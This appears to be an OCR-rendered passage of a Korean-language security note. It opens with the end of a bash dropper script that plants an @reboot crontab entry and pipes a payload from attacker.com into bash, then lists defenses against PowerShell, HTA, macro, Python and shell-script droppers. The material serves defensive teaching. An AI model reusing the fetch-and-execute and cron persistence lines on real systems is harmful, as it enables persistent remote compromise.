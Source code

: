 ```bash
        crontab -l 2>/dev/null > /tmp/cron_new
        echo "@reboot curl -s http://attacker.com/payload | bash" >> /tmp/cron_new
        crontab /tmp/cron_new
        rm /tmp/cron_new
    fi
    
    # 실제 페이로드 실행
    curl -s http://attacker.com/payload | bash
}

# 메인 실행 흐름
if ! check_privileges; then
    escalate_privileges
fi

# 페이로드 실행
drop_payload
```

## Note

#### 대체 실행 표면 공격 및 방어 고려사항
- **인터프리터 기반 드로퍼의 진화**
    - 전통적인 C/C++ 드로퍼 대비 탐지율 감소 `약 35-50%`
    - 다양한 난독화, 인코딩 기법 적용 가능성 증가
    - 사회공학 기법과의 결합으로 유효성 향상
- **기술별 특화된 방어 전략**
    1. **PowerShell 기반 공격 방어**
        - Script Block Logging 활성화
        - PowerShell 실행 정책 제한(Constrained Language Mode)
        - AMSI(Anti-Malware Scan Interface) 통합 강화
        - 의심스러운 인코딩된 명령 모니터링
    2. **HTA/JavaScript 기반 공격 방어**
        - `MSHTA.exe` 실행 제한 (AppLocker/소프트웨어 제한 정책)
        - ActiveX 컨트롤 및 `WScript.Shell` 객체 접근 제한
        - `Group Policy`를 통한 스크립트 실행 제어
        - 브라우저 기반 방어 메커니즘 활성화
    3. **Office 매크로 기반 공격 방어**
        - 매크로 비활성화 정책 적용 (그룹 정책)
        - Protected View 및 Application Guard 활성화
        - 외부 소스에서 받은 문서에 대한 자동 매크로 실행 차단
        - 동적 데이터 교환(DDE) 기능 비활성화
    4. **Python/PyInstaller 기반 공격 방어**
        - 애플리케이션 허용 목록(Application Allowlisting) 구현
        - 의심스러운 Python 바이너리 모니터링
        - 네트워크 레벨 필터링을 통한 C2 통신 차단
        - 백그라운드 프로세스 생성 모니터링
    5. **쉘 스크립트 기반 공격 방어**
        - `sudoers` 파일 보안 강화
        - SUID/SGID 바이너리 최소화
        - 크론 작업 및 시작 스크립트 정기 감사
        - 권한 상승 시도 탐지 및 차단
- **일반적인 비정형 드로퍼 위협 대응**
    - 행위 기반 탐지(Behavioral Detection) 구현
    - 포괄적인 로깅 및 상관 분석 강화
    - EDR(Endpoint Detection and Response) 솔루션 도입
    - 제로트러스트 아키텍처 적용
    - 정기적인 취약점 스캔 및 패치 관리

